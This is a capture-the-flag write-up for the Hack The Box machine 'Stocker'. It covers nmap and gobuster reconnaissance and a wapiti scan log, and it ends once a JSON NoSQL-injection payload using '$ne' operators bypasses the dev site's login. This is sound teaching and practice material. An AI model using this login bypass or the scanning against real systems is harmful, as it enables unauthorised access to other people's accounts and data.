

# Stocker HTB


## Scanning and enumeration :thumbsup:

### nmap scan


<pre class="language-bash"><code class="lang-bash"># COMMAND
nmap -A <a data-footnote-ref href="#user-content-fn-1">10.10.11.196</a>

# Output Sample
Starting Nmap 7.91 ( https://nmap.org ) at 2023-03-03 16:53 +01
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.45 seconds

</code></pre>

We note that a nginx 1.18.0 web server is running on port 80. (we will search on vulnerabilities on this version latter)

### Subdomain enumeration:

```bash
#COMMAND
gobuster vhost -w {wordlist location} -u http://stocker.htb/

# Output
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/kali/Desktop/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/03/03 17:13:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
Progress: 147 / 4990 (2.95%)  
```

Let's discover dev.stocker.htb .

<figure><figcaption></figcaption></figure>

The website requests a login; I attempted sql injection and xss, but without success.

I tried also to enumerate directories bus i didn't fount anything, then i tried to scan website  with wapiti and zap&#x20;

#### WAPIT :&#x20;

```bash
# COMMAND
wapiti -u http://dev.stocker.htb/login

# Output

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti-3.0.4 (wapiti.sourceforge.io)
[*] Saving scan state, please wait...

 Note
========
This scan has been saved in the file /home/kali/.wapiti/scans/dev.stocker.htb_folder_9ad5a234.db
[*] Wapiti found 3 URLs and forms during the scan
[*] Loading modules:
         backup, blindsql, brute_login_form, buster, cookieflags, crlf, csp, csrf, exec, file, htaccess, http_headers, methods, nikto, permanentxss, redirect, shellshock, sql, ssrf, wapp, xss, xxe
Problem with local wapp database.
Downloading from the web...

[*] Launching module csp
CSP is not set

[*] Launching module http_headers
Checking X-Frame-Options :
X-Frame-Options is not set
Checking X-XSS-Protection :
X-XSS-Protection is not set
Checking X-Content-Type-Options :
X-Content-Type-Options is not set
Checking Strict-Transport-Security :
Strict-Transport-Security is not set

[*] Launching module cookieflags
Checking cookie : connect.sid
Secure flag is not set in the cookie : connect.sid

[*] Launching module exec

[*] Launching module file

[*] Launching module sql

[*] Launching module xss

[*] Launching module ssrf
[*] Asking endpoint URL https://wapiti3.ovh/get_ssrf.php?id=56jnbt for results, please wait...

[*] Launching module redirect

[*] Launching module blindsql
[!] Too much lag from website, can't reliably test time-based blind SQL
[!] Too much lag from website, can't reliably test time-based blind SQL

[*] Launching module permanentxss

Report
------
A report has been generated in the file /home/kali/.wapiti/generated_report
Open /home/kali/.wapiti/generated_report/dev.stocker.htb_03022023_1610.html with a browser to see this report.

```

Certain HTTP Secure Headers (X-Frame-Options, X-XSS-Protection, and X-Content-Type-Options), according to the report, are not set. Yet I can't seem to locate an exploit for such weaknesses.

#### ZAP :&#x20;

<figure><figcaption></figcaption></figure>

The "X-Powered-By: Express" header is related to the Express.js web application framework, which is a popular framework for building web applications in Node.js. This header indicates that the web server is running an application built with the Express.js framework. Also express.js can be used to manage MongoDB databases.&#x20;

So I tried to find some vulnerabilities; I visited [hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection) and [lisandre](https://lisandre.com/archives/2286), and it was really insightful.

### Gaining access

<figure><figcaption></figcaption></figure>

I changed the value of Content-type to :&#x20;

&#x20;`Content-type: application/json`

And I used the following payload to bypass the login page:&#x20;

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

The login page was successfully avoided by the payload.


[^1]: target ip address
